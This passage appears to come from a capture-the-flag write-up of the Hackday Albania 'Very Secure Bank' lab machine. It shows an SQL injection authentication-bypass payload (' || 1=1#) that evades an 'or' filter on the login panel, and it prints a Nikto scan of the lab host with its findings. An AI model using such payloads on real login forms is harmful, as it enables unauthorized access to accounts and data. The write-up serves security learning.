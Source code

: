 I ran Nikto while checking for SQL injection vulnerability on the login panel.

![SQL Injection](/images/posts/hackday-albania-very-secure-bank-sqli.png)

The bank is vulnerable to SQL injection for sure, but it's filtering out the "or" operation. So I used this payload to get around it.

```
' || 1=1#
```

Meanwhile, Nikto doesn't seem to find anything useful.

```
$ nikto -h http://192.168.0.105:8008/unisxcudkqjydw/vulnbank/client/
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          192.168.0.105
+ Target Hostname:    192.168.0.105
+ Target Port:        8008
+ Start Time:         2016-11-20 20:20:06 (GMT7)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Cookie PHPSESSID created without the httponly flag
+ Retrieved x-powered-by header: PHP/7.0.8-0ubuntu0.16.04.3
+ The anti-clickjacking X-Frame-Options header is not present.
+ Root page / redirects to: login.php
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ OSVDB-630: IIS may reveal its internal or real IP in the Location header via a request to the /images directory. The value is "http://127.0.1.1/unisxcudkqjydw/vulnbank/client/images/".
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ /unisxcudkqjydw/vulnbank/client/config.php: PHP Config file may contain database IDs and passwords.
+ OSVDB-3268: /unisxcudkqjydw/vulnbank/client/images/: Directory indexing found.
+ OSVDB-3268: /unisxcudkqjydw/vulnbank/client/images/?pattern=/etc/*&sort=name: Directory indexing found.
+ /unisxcudkqjydw/vulnbank/client/login.php: Admin login page/section found.
+ 6544 items checked: 0 error(s) and 9 item(s) reported on remote host
+ End Time:           2016-11-20 20:20:15 (GMT7) (9 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```
